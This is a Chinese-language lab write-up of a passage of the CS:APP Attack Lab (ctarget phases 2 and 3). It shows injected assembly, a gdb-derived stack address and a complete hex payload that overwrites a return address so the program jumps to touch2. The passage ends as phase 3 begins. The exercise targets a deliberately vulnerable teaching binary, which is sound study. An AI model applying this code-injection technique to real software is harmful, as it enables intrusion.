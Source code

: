 ![image-20230425092444653](https://persecution-1301196908.cos.ap-chongqing.myqcloud.com/image_bedimage-20230425092444653.png)

### phase2

![image-20230425121649563](https://persecution-1301196908.cos.ap-chongqing.myqcloud.com/image_bedimage-20230425121649563.png) 

Phase 2 就是要你注入一小段代码。任务是让 ctarget 运行 touch2 的代码而不是返回到 test。在这种情况下，你必须把你的 cookie 传递给 touch2 而不是简单的调用它。

总之先该插入什么代码吧。

~~~assembly
movq $0x59b997fa, %rdi # 将 cookie 作为参数传入
push $0x4017ec # 将要跳转的地址push到栈上，这里是 touch2 函数的地址
ret # ret 会取出栈上的返回地址，并跳转到该位置
~~~

怎么插入？当然是先给他编译成二进制，再把这段二进制插入到刚才没有用到的栈区域，然后我们把 test 栈帧保存的返回地址修改为这个栈区域的开始地址，让 `getbuf` 返回跳转到这段代码，这就是代码注入的实现思路。

当然，那块栈区域实际上编译期是不知道地址的，不过我们拿 gdb 断点一下就知道了。

（mac m1/m2 qemu 模拟环境 gdb debug x86 程序有坑，本想在服务器上 debug 结果服务器不知道为啥一运行就 segmentation fault，于是还是请了我的 x86 linux 轻薄本出山）

![img_v2_ca388e8d-1548-462d-a05d-5a805152e14g](https://persecution-1301196908.cos.ap-chongqing.myqcloud.com/image_bedimg_v2_ca388e8d-1548-462d-a05d-5a805152e14g.jpg)

从这里可以看出刚进入 `getbuf` 时栈指针为 `0x5561dca0`，那么可以推出数组开始的地址为 0x5561dca0 - 0x28 = `0x5561dc78` 

然后我们用 gcc 把上面给出的要插入的汇编代码编译一下拿到对应的二进制。编译出来的二进制已经是小端排列，照抄即可。

![image-20230425211534026](https://persecution-1301196908.cos.ap-chongqing.myqcloud.com/image_bedimage-20230425211534026.png)

> 48 c7 c7 fa 97 b9 59 68
>
> ec 17 40 00 c3 19 81 00
>
> 00 11 45 14 19 19 81 00
>
> 00 11 45 14 19 19 81 00
>
> 00 11 45 14 19 19 81 00
>
> 78 dc 61 55 00 00 00 00

### phase3

![image-20230426172927009](https://persecution-1301196908.cos.ap-chongqing.myqcloud.com/image_bedimage-20230426172927009.png)

phase 3 也是要做代码注入攻击，不过需要传递一个字符串作为参数。任务是让 `ctarget` 运行 `touch3` 的代码，而不是返回到 `test`。你必须要传入 cookie 字符串作为参数再调用它。

之前插入的 cookie 是数字形式，所以只需要立即数直接扔 %rdi 就好了，字符串要稍微麻烦点，不过也就是多分配一块存字符串的内存而已，应该不难。

总之先把 cookie 字符串转为字节(hex)形式吧。
